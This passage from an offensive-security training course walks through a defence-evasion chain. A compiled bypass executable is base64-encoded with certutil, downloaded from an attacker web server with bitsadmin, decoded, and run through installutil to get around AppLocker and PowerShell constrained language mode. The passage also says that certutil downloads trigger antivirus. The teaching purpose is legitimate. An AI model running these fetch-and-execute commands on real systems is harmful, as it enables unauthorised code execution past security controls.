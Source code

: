 There are a couple of steps involved in setting this up, so let's take them one at a time. First, we'll use certutil on our Windows 10 development machine to Base64-encode the compiled executable. This is done by supplying the -encode flag:

```
C:\Users\Offsec>certutil -encode C:\Users\Offsec\source\repos\Bypass\Bypass\bin\x64\Release\Bypass.exe file.txt
Input Length = 5120
Output Length = 7098
CertUtil: -encode command completed successfully.
C:\Users\Offsec>type file.txt
-----BEGIN CERTIFICATE-----
TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAgAAAAA4fug4AtAnNIbgBTM0hVGhpcyBwcm9ncmFtIGNhbm5v
dCBiZSBydW4gaW4gRE9TIG1vZGUuDQ0KJAAAAAAAAABQRQAAZIYCAHFjntgAAAAA
AAAAAPAAIgALAjAAAAwAAAAGAAAAAAAAAAAAAAAgAAAAAABAAQAAAAAgAAAAAgAA
...
```

> Listing 23 - Base64 encoding the executable with certutil

Now that the binary has been Base64-encoded, we'll copy it to the web root of our Kali machine and ensure that Apache is running. Then we'll use _bitsadmin_ to download the encoded file.

Certutil can also be used to download files over HTTP(S), but this triggers antivirus due to its widespread malicious usage.

To download the file, we'll specify the /Transfer option along with a custom name for the transfer and the download URL:

```
C:\Users\student>bitsadmin /Transfer myJob http://192.168.119.120/file.txt C:\Users\student\enc.txt

DISPLAY: 'myJob' TYPE: DOWNLOAD STATE: ACKNOWLEDGED
PRIORITY: NORMAL FILES: 1 / 1 BYTES: 7098 / 7098 (100%)
Transfer complete.
```

> Listing 24 - Downloading the Base64 encoded executable with bitadmin

With the file downloaded we can decode it with certutil -decode:

```
C:\Users\student>certutil -decode enc.txt Bypass.exe
Input Length = 7098
Output Length = 5120
CertUtil: -decode command completed successfully.

C:\Users\student>C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\users\student\Bypass.exe
Microsoft (R) .NET Framework Installation utility Version 4.8.3752.0
Copyright (C) Microsoft Corporation.  All rights reserved.
```

> Listing 25 - Decoding with certutil and executing with installutil

As shown in Listing 25, we executed the decoded executable with InstallUtil and bypassed both AppLocker's executable rules and PowerShell's constrained language mode.

